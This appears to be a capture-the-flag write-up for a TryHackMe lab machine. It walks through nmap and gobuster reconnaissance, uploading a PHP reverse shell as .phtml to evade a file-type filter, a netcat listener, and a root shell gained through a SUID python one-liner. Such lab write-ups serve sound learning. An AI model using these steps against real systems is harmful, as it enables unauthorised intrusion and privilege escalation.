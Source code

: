 #### Target Information

**Target IP:** 10.10.112.61

**My IP:** 10.23.53.161

# Task 1 - Deploy the Machine

Machine successfully deployed.

Connected to TryHackMe network via **OpenVPN**.

# Task 2 - Reconnaissance

## Home Page

After inspecting the source code of the main page, no suspicious elements were found.

![](Screenshots/index.png)

## Nmap Scan

Command used:

```bash
nmap -sC -sV -o nmap/initial.txt 10.10.112.61
```

Result:

![](Screenshots/nmap.png)


## Gobuster Scan

Command used:

```bash
gobuster dir -u http://10.10.112.61 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -o gobuster/gobuster.txt
```

Result:

Discovered hidden directory: /panel

![](Screenshots/gobuster.png)

![](Screenshots/panel.png)

# Task 3 - Getting a Shell

## Reverse Shell Upload

Found a file upload form in /panel

Uploaded a PHP reverse shell as .phtml (since .php was blocked)

![](Screenshots/shell_php.png)

![](Screenshots/shell_uploaded.png)

![](Screenshots/uploads.png)

## Listener

Set up a listener using:

```bash
nc -lvnp 4444
```

## Upload Directory

Navigated to the uploaded shell via web browser

Triggered connection back

![](Screenshots/page_empty.png)

![](Screenshots/shell_access.png)

## User Flag

Located user.txt on the server

![](Screenshots/user_txt.png)

# Task 4 - Privilege Escalation

## SUID File Search

Command used:

```bash
find / -perm -4000 -type f 2>/dev/null
```

![](Screenshots/SUID.png)

## Suspicious Binary

Found SUID set on: **/usr/bin/python**

This is unusual, as python should not have SUID set

Used it to escalate privileges

Command to escalate to root:

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![](Screenshots/root_access.png)

## Root Flag

Found root.txt in the **/root** directory

![](Screenshots/root_txt.png)